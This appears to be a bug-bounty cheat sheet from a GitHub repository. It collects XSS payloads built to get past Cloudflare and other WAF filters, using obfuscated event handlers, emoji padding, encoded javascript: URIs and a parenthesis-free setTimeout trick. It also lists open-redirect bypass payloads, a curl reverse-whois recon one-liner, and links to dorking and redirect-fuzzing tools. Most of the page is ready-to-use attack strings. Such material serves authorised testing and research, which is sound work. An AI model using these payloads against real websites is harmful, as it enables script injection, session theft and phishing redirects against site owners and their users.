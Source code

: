
##### Stored XSS and cloudflare bypass
```js
<a"/aonclick=(confirm)()>click
```
##### EX
use emojis to bypass payload
```js
😎<<svg/onload😎=/svg/onload=svg/onmouseOver=confirm'1'><!--😎//="
```
#### Parantheses less arbitrary xss in URL 
```js
onhashchange=setTimeout;
Object.prototype.toString=RegExp.prototype.toString;
Object.prototype.source=location.hash;
location.hash=null
```
#### XSS to WAF Bypass
**payload**
```js
'-(a=alert,b="_Yooo!_",[b].find(a))-'
<svg%09%0a%0b%0c%0d%0a%00%20onload=alert(1)>
<iframe src=%0Aj%0Aa%0Av%0Aa%0As%0Ac%0Ar%0Ai%0Ap%0At%0A%3Aalert(0)">
<script%20~~~>\u0061\u006C\u0065\u0072\u0074''</script%20~~~>
<svg onload='new Function'["_Y000!_"].find(al\u0065rt)''>
```
### IOS Mind map
![mindmap](https://github.com/thevillagehacker/Bug-Hunting/blob/main/Writeups/Bug-Bounty-Tips/img/ios-mindmap.jpg)

### Github dorks
- https://github.com/techgaun/github-dorks

### Find domains that have "xyz" in whois
```bash
curl -H "User-Agent: Mozilla" "viewdns.info/reversewhois/?..." | grep -Po "<tr><td>[^<]+</td>" | cut -d '>' -f3 | cut -d '<' -f1
```
### Openredirect bypass Payloads
```js
/path?redirect=//2130706433
or 
/path?redirect=//0x7f000001
or 
@%E2%80%AE@moc.elgoog ==> https://test.com<payload_here>
```
it will redirect you to 127.0.0.1
**Tool to automate**
- [oralyzer](https://github.com/0xNanda/Oralyzer)

##### For bulk redirect check 
> **check this fuzzer**
- https://github.com/devanshbatham/OpenRedireX
